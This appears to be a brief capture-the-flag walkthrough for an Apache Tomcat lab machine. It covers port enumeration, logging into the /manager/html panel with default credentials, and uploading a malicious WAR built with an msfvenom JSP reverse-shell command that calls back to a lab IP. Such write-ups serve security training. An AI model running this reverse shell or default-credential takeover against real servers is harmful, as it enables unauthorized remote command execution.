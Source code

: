 1. Enumerate open ports in the machine. 8080

2. As we're in front of an Apache Tomcat we can look for vulnerabilities that appear because of the old apache version

3. Apache Tomcat has a certain directory called __{IP}__/manager/html that enables you to have full access to the site. Must-try in this type of websites

4. The username and password were set as default so the only thing to do is just enter into the control panel

5. Upload a malicious .war to the upload section in order to get remote command execution in the application
		5.1 - This step can be done by running the following command just to get the possible java payloads: msfvenom -l | grep java 
        5.2 - And after seeing the previous command output go on and try this "msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.6 LPORT=443 -f war -o shell.war"
	        -p : To specify the payload to use
	        -f : To specify the file extension
	        -o : To specify the file name

6. Type the file from the Admin user in the machine
